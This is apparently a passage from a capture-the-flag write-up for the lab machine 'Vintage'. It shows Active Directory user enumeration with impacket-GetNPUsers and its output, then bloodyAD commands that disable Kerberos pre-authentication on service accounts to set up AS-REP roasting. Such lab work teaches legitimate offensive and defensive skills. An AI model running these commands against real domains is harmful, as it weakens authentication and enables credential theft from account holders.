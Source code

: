 ```bash
  15   │ svc_ark
  16   │ C.Neri_adm
  17   │ L.Bianchi_adm
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

We then use `impacket-GetNPUsers` to list users that do not require Kerberos realm authentication (UF_DONT_REQUIRE_PREAUTH)

```bash
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
```

```bash
❯ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Next, we disable pre-authentication

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
```
